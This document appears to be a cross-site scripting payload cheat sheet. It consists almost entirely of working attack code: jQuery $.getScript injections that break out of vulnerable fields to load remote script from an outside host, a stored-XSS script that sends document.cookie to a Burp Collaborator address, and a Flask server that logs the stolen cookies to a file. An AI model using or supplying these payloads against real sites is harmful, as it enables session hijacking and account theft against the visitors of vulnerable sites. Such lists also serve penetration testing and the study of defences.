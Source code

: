 - From <https://aerst.one/p/xss.html> 

## jQuery:

```javascript
$.getScript('//thegetch.github.io/x');
```

Examples:

```javascript
;}$(document).ready(function(){$.getScript(%27//thegetch.github.io/x%27)});x=function(){a=%27
```

```javascript
&vulnfield=
thegetch%27);}});};$.getScript(%27//thegetch.github.io/x%27);x=function(){getDate(function(){x=function(){x=(%27
&otherfield=blah.....
```

```javascript
&vulnfield=
*/%27];$.getScript(%27//thegetch.github.io/x%27);/*
&otherfield=blah.....	  	
```

## In json format:

```json
"certificationVersion":"https://aerst.one/p/xss2.svg"
```

### Stealing Cookies 

Stored XSS to steal cookies (using Burp Collaborator):

```javascript
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script> 
```

Stored XSS to steal cookies (using Flask in Python):

```python
from flask import Flask, request, redirect
from datetime import datetime

app = Flask(__name__)

@app.route('/')
def cookie():

    cookie = request.args.get('c')
    f = open("cookies.txt","a")
    f.write(cookie + ' ' + str(datetime.now()) + '\n')
    f.close()

    return redirect("http://answers/")

if __name__ == "__main__":
    app.run(host = '0.0.0.0', port=5000)
```
